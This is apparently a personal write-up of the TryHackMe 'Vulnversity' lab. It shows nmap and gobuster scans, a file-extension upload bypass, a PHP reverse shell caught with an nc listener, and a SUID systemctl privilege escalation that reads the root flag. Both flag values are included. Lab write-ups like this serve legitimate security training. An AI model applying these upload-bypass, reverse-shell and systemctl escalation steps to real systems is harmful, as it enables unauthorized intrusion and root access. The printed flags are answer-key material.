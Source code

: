 p1 = 10.10.35.78

nmap -sV -sC 10.10.35.78                                                                                      148 ⨯ 1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-24 21:48 GMT
Nmap scan report for 10.10.35.78
Host is up (0.032s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-01-24T16:48:54-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-24T21:48:53
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.01 seconds





nmap -p- 10.10.35.78                                                                                                2 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-24 22:07 GMT
Nmap scan report for Vulnversity.thm (10.10.35.78)
Host is up (0.043s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes

Nmap done: 1 IP address (1 host up) scanned in 36.38 seconds





gobuster dir -u http://10.10.35.78:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt             2 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.78:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 22:11:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.35.78:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.35.78:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.35.78:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.35.78:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.35.78:3333/internal/]
/server-status        (Status: 403) [Size: 301]

===============================================================
2022/01/24 22:19:04 Finished
===============================================================



--> next I did a sniper attack in Bur psuite using a php.txt file consisting of: .php, .php2, .php3, .php4, .php5, .phtml -> to check which was accepted by the site. THM room said only .phtml would be accepted but looked>

--> I then proceeded to download the PHP reverse shell from: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
--> I changed the IP to tun0 I have from connecting to openvpn (check at http://10.10.10.10) and kept the port to 1234 (I ended up using a shell already in the system)

--> then I set up a nc listener:
nc -lvnp 1234

--> uploaded the .phtml file and it was a success
--> next would be to navigate to:
http://<ip>:3333?internal/uploads/php-reverse-shell.phtml
--> thi should have executed the payload so I check the listener:
nc -lvnp 1234                                                                                                                                                                                                 148 ⨯ 1 ⚙
listening on [any] 1234 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.223.40] 39180
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:04:36 up 20 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
 
--> got a shell!
--> I started looking aorund, went into /home and saw bill, cd'ed into bill and found the user.txt file:
cd home
$ ls
bill
$ cd bill
$ ls
user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
--> an there is the first flag



--> NOW FOR THE PRIVESC:
--> I executed the command:
$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
--> and got the result:
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
	
	
	
--> I looked up systemctl on GTFObins and got an article which I almost followed step by step (with help from https://tryhackme.com/resources/blog/vulnversity too):
$ pwd
/opt
#1: create the environment variables (as per GTFOBins)
$ TF=$(mktemp).service
#2: create a unit file + assign this to the environment variable - link them (also as per GTFOBins)
#--> remember that rather than using whats on GTFOBins website, replace "id > /tmp/output" with the file we want to read and copy to be created in our current working directory)
$ echo '[Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
> [Install]
> WantedBy=multi-user.target' > $TF
#3: run the unit file using systemctl
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.6A8j2ShIRK.service to /tmp/tmp.6A8j2ShIRK.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.6A8j2ShIRK.service to /tmp/tmp.6A8j2ShIRK.service.
#4: flag file should now be available to us!
$ ls
flag
$ cat flag
a58ff8579f0a9270368d33a9966c7fd5
	
	:))